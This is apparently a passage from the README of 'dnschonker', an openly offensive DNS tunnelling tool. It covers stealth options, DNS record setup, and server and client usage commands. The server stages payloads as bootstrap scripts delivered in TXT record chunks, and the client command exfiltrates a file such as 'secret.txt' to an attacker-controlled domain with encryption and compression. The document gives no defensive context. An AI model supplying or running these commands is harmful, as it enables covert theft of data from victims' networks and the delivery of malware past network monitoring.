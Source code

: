 ```
- ✅ Chunk size tuning and inter-packet delay for stealth  

---

## 🔧 Requirements
- Server with Public IP:
- Inbound/Outbound Traffic
- DNS over UDP/TCP Port 53
- Root/Sudo Access on Server

- Create DNS Records:
- A record - sub.yourdomain.com - 1.2.3.4
- NS record - sub.yourdomain.com sub.yourdomain.com

- Python 3.9+
- [`dnspython`](https://pypi.org/project/dnspython/)
- [`cryptography`](https://pypi.org/project/cryptography/)

- Install dependencies:
- pip install -r requirements.txt
```
---

## 🚀 Server Usage

```bash
python3 server.py --domain sub.yourdomain.com --encrypt --compress --file payload.bin
```

### Options

- `--domain`: Required domain that is delegated to this DNS server
- `--ip`: Bind IP (default: `0.0.0.0`)
- `--port`: Bind port (default: `53`)
- `--file`: Optional file to serve as staged payload (base64 chunked)
- `--key`: Encryption key (hex or passphrase)
- `--encrypt`: Generate random AES key for bootstraps and decryption
- `--compress`: Enable zlib compression
- `--debug`: Show extra debug output

When started with `--file`, dnschonker will:

- Generate platform-specific bootstrap scripts
- Respond to specific TXT queries with script chunks
- Log sessions and output files under `session.<id>.bin`

---

## 🚀 Client Usage

Exfiltrate a file with compression and encryption
```bash
python3 client.py --domain sub.yourdomain.com --file secret.txt --compress --key abcd1234
```
